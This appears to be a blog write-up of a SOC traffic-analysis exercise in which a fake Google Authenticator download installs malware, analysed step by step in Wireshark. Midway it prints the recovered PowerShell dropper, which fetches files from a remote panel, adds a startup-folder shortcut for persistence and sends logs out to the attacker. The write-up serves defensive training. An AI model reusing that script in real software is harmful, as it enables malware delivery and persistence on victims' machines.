 ```yaml
---
title: Traffic Analysis Exercise (Download from fake software site)
date: 2025-02-22 12:57:00 +3
categories: SOC
tags: [Network Traffic Analysis, Wireshark, Network Forensics]
image: 
  path: /assets/img/SoftwareDownload.JPG
---
```


On January 22, 2025, an employee reported to Fictional Corp’s Security Operations Center (SOC) that a coworker downloaded a suspicious file. A Bing search for the Google Authenticator application was done and they clicked on the malicious ad which led them to a malicious website where the fake software was installed. After the malware was executed on the victim’s machine, from the network traffic analysis it was observed that it would download other files to the machine. The malware also exhibited persistence capabilities by adding itself to the startup programs folder ensuring that it runs every time the system boots up. Despite no observable malicious actions to date, its presence poses a significant potential threat to the organization.

## LAN Segment Details from the PCAP

* LAN segment range:  **10.1.17[.]0/24**   (**10.1.17[.]0** through **10.1.17[.]255**)
* Domain:  **bluemoontuesday[.]com**
* Active Directory (AD) domain controller:  **10.1.17[.]2** - **WIN-GSH54QLW48D**
* AD environment name:  **BLUEMOONTUESDAY**
* LAN segment gateway:  **10.1.17[.]1**
* LAN segment broadcast address:  **10.1.17[.]255**

## Network Traffic analysis process 
This section describes the steps taken in the network traffic analysis, my thought process, and how I reviewed the traffic to find the IoCs that were shared by the Threat Intelligence source, Palo Alto Networks. It most definitely made this process much easier, so let's dive in!

Considering that the incident involved visiting a malicious website, it was logical to start by filtering the packets for DNS traffic. I identified one of the subdomains used for the malicious ads, i.e., `google-authenticator.burleson-appliance.net/`.

![Alt Text](/assets/img/DFS1.JPG)

The next step involved filtering for HTTP requests in order to check for the fake software that was installed and other files that were pulled from the network when it was executed on the victim's machine. From the screenshot below, we can see `TeamViewer.exe`, `pas.ps1`, `29842.ps1`, and many others which were retrieved.

![Alt Text](/assets/img/DFS2.JPG)

In the screenshot below, it shows when I followed the TCP stream of the highlighted packets, and the more I scrolled down, I identified more files that were being pulled into the victim's machine. It's how I found `29842.ps1`.

![Alt Text](/assets/img/DFS3.JPG)

I also got to see the script that was used to install the fake TeamViewer application. This shows us the behavior of the fake software once it gets to the victim's machine. To summarize what it does, the script downloads and executes files (i.e., `TeamViewer.exe`, `Teamviewer_Resource_fr.dll`, `TV.dll`, and `pas.ps1` files) from a remote server; these are initial actions the fake software takes to establish itself in the victim's machine. It also created a shortcut in the startup folder so that it can run every time the system starts. This is a way in which attackers ensure persistence in the system. The script also sends logs to a remote server, which indicates that the fake software might be communicating with an external attacker, potentially sending sensitive data or receiving commands. This summary provides a behavior analysis of the fake software.

```javascript
function Download-Files($panelIP, $files, $filesDir){
    $web = New-Object System.Net.WebClient
    
    try {
        if(!(Test-Path $filesDir)) {
            New-Item $filesDir -ItemType Directory | Out-Null
        }
    } catch {
        return @{'status' = 'error'; 'message' = 'error while creating startup directory'}
    }
    
    foreach($file in $files) {
        try {
            $link = $file.link
            $fileName = $file.name
            $filePath = "$filesDir\$($file.name)"
            $web.DownloadFile($link, $filePath)
            if($fileName -eq $startupFile){
                $exePath = $startupFile
            }
        } catch {
            return @{'status' = 'error'; 'message' = "Error while download file. Filename: $($file.name). Link: $($link). Error: $($Error[0].exception.message)"}
        }
    }


    return @{'status' = 'success'}
}


function Create-Shortcut($filePath, $shortCutpath){
    $WshShell = New-Object -comObject WScript.Shell
    $Shortcut = $WshShell.CreateShortcut($shortCutpath)
    $Shortcut.TargetPath = $filePath
    $Shortcut.Save()
}


function Invoke-Startup($panelIP, $files, $filesDir, $startupFileName){
    $result = Download-Files $panelIP $files $filesDir
    if ($result.status -eq 'error'){
        return $result
    }


    #$startupFilePath = "$filesDir\$startupFileName"
    $startupFilePath = "C:\ProgramData\huo\TeamViewer.exe"
    $shortcutPath = "$([Environment]::GetFolderPath('Startup'))\TeamViewer.lnk"


    try {
        Create-Shortcut $startupFilePath $shortcutPath
    } catch {
        return @{'status' = 'error'; 'message' = "Error while creating shortcut."}
    }


    return @{'status' = 'success'; 'message' = 'startup shortcut created'}
}


function Send-Log($result){
    $log = "?k=$result"
    $uploadUrl = $url + $log
    $web = New-Object System.Net.WebClient
    $web.DownloadString($uploadUrl)
}


function ConvertTo-StringData($hashTable){
        foreach ($item in $hashTable) {
            foreach ($entry in $item.GetEnumerator()) {
                "{0} = {1}; " -f $entry.Key, $entry.Value
            }
        }
}


$filesDownloadLink = $ip + 'api/file/get-file/'
$filesDir = 'C:\ProgramData\huo'
$files = @(
    @{'name' = 'TeamViewer.exe'; 'link' = $filesDownloadLink + 'TeamViewer'},
    @{'name' = 'Teamviewer_Resource_fr.dll'; 'link' = $filesDownloadLink + 'Teamviewer_Resource_fr'},
    @{'name' = 'TV.dll'; 'link' = $filesDownloadLink + 'TV'}
    @{'name' = 'pas.ps1'; 'link' = $filesDownloadLink + 'pas.ps1'}
)
$startupFile = 'TeamViewer.exe'


$result = Invoke-Startup $panelIP $files $filesDir $startupFile
$result = ConvertTo-StringData($result)
Send-Log($result)p, li { white-space: pre-wrap; }hr { height: 1px; border-width: 0; }li.unchecked::marker { content: "\2610"; }li.checked::marker { content: "\2612"; }
```

I also took note of the server that supported the downloads: `5.252.153.241`.

![Alt Text](/assets/img/DFS4.JPG)

The following screenshots show an alternative method of finding more files that were retrieved from the malicious server. From the previous step, we already identified the IP address of the server hosting the malicious ad; hence, filtering the packets by specifying its IP address when filtering for HTTP requests can be useful in narrowing the traffic down to find much more valuable traffic.

![Alt Text](/assets/img/DFS5.JPG)

![Alt Text](/assets/img/DFS6.JPG)

## Questions 

**What is the IP address of the infected Windows client?** `10.1.17.215` 
At the start, when we filtered for DNS traffic, the IP that visited one of the malicious ad's subdomains is the infected Windows client.

![Alt Text](/assets/img/DFS7.JPG)

**What is the mac address of the infected Windows client?** `Intel_26:4a:74 (00:d0:b7:26:4a:74)`
This information was obtained from the very same packet from the previous question. The screenshot below shows its details where I got the MAC address.

![Alt Text](/assets/img/DFS8.JPG)

**What is the host name of the infected Windows client?** `DESKTOP-L8C5GSJ`
Since I already knew the IP address of the affected machine, I used it to filter the packets to display NBNS packets associated with the infected Windows client.

![Alt Text](/assets/img/DFS9.JPG)

![Alt Text](/assets/img/DFS10.JPG)

**What is the user account name from the infected Windows client?** `shutchenson`
I searched for Kerberos authentication, which is used by AD DC, to see if I could find packets that would reveal the user account name. I selected the first packet and viewed its details and got `shutchenson`.

![Alt Text](/assets/img/DFS11.JPG)

**What is the likely domain name for the fake Google Authenticator page?**
From a previous DNS filtered search, I found a subdomain which is also listed as one of the main website's subdomains that could likely be the Google Authenticator page.

![Alt Text](/assets/img/DFS12.JPG)



